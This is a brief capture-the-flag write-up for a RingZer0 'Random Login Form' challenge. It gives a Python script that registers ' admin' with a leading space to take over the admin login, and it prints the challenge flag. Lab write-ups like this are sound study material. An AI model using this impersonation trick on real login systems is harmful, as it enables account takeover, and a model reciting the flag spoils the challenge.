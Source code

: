 <h1>Random Login Form</h1>
<h3>Description</h3>
<p>http://challenges.ringzer0ctf.com:10171/</p>
<h3>Solution</h3>

```python3
import requests

s = requests.Session()
url = "http://challenges.ringzer0ctf.com:10171/"
data = {"new":" admin","new_password":"1234","submit":"Register"}
res = s.post(url,data=data).text
data = {"username":" admin","password":"1234"}
res = s.post(url,data=data).text
print(res)
```
<p>Payload : <space>admin == admin</p>

<h3>Flag</h3>
<pre>
FLAG-0Kg64o8M9gPQfH45583Mc0jc3u
</pre>
